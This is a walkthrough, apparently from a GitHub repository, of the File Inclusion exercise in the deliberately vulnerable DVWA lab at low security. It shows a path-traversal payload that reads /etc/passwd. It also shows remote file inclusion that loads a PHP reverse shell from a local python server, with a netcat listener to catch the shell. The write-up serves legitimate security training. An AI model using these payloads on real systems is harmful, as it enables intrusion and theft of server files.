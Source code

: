 # File Inclusion

## About

> Some web applications allow the user to specify input that is used directly into file streams or allows the user to upload files to the server.

> At a later time the web application accesses the user supplied input in the web applications context. By doing this, the web application is allowing the potential for malicious file execution.

> If the file chosen to be included is local on the target machine, it is called "Local File Inclusion (LFI). But files may also be included on other machines, which then the attack is a "Remote File Inclusion (RFI).

> When RFI is not an option. using another vulnerability with LFI (such as file upload and directory traversal) can often achieve the same effect.
> 
> Note, the term "file inclusion" is not the same as "arbitrary file access" or "file disclosure".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi1.png?raw=true">
</p>

For this vulnerability we have 3 buttons to file1.php, file2.php and file3.php.
When we access for example the first file, we can see in the URL, the name of the file sent it as the value for the `page` parameter.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi2.png?raw=true">
</p>

This value can be changed to the name of other valid files from the server. Below we can see that we manage to access the file4.php, even if this was not displayed as an option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi3.png?raw=true">
</p>

To move around to the server's directories we can use `../../`. Every `../` will move us to the parent directory.
Using this syntax, we can read files from different places.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi4.png?raw=true">
</p>

For example we can use: `http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../../../etc/passwd` to read all local users on the server.
This payload is using many `../`, because we want to access the `/etc/passwd` from the root path `/`. So we add many `../` to be sure that we arrived at the root path.

The source code looks like this:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
So we can see that the parameter is missing any validation.

The objective of this exercise is to gain access to `../hackable/flags/fi.php` and to read all five quotes.
The exact payload does not work, but going back one more directory will include the file into the page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi5.png?raw=true">
</p>

Ok, we can read some of the quotes, but not all five. Visiting the source code of the page we can see that the fifth quote is commented.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi6.png?raw=true">
</p>

Even if we directly visit the page, not through the file inclusion vulnerability, a prevention measure was put in place for that.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi7.png?raw=true">
</p>

That means that the third one is not accessible via client-side.

## File Inclusion vs Directory Traversal
The difference between these 2 is that through the directory traversal vulnerability we will be able to read files from the system, but with file inclusion, the file is also included in the page.
This is why we were not able to read the fifth quote directly from the page, because the php code was executed, so the comment line was treated as a comment and not included as text in the page.

For example reading `/etc/passwd` will be the same for directory traversal and also for file inclusion because is just a file with text.
Instead trying to read login.php, in directory traversal we will see all the content of the file as text, and in the file inclusion the content will be included in the page, like in the example below:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi8.png?raw=true">
</p>

## Remote File Inclusion
Ok, we still didn't read the third quote, so what can we do?
There are 2 types of file inclusion, local and remote. We already saw in the previous examples the file included from the local, that means that the remote file inclusion will come from a different domain.
So instead of giving local files as parameter, we will give a new address: `http://localhost/DVWA/vulnerabilities/fi/?page=http://example.com/example.php`.
Now, on our page we will be able to see the content of the files from other domains.

RFI is more dangerous than LFI because usually leads to Remote Code Execution.
For the next example we will host a python server and use a reverse shell for the RFI vulnerability.

A php reverse shell can be downloaded from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Edit it with the ip of your machine and the port you want to use, for this example the ip will be 127.0.0.1 and port 4444.
Start a python server at the location of the reverse shell file: `python3 -m http.server 4445`
Start a netcat listener: `nc -lvnp 4444`
And now we can access the URL: `http://localhost/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:4445/rev.php`
Now we have access on the server and we can go and read the `/hackable/flags/fi.php` file.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi9.png?raw=true">
</p>

Is interesting that the fourth message is encrypted in the file, so we were able to read it the first time with the help of file inclusion vulnerability.

## Medium Security

## High Security

## Impossible Security
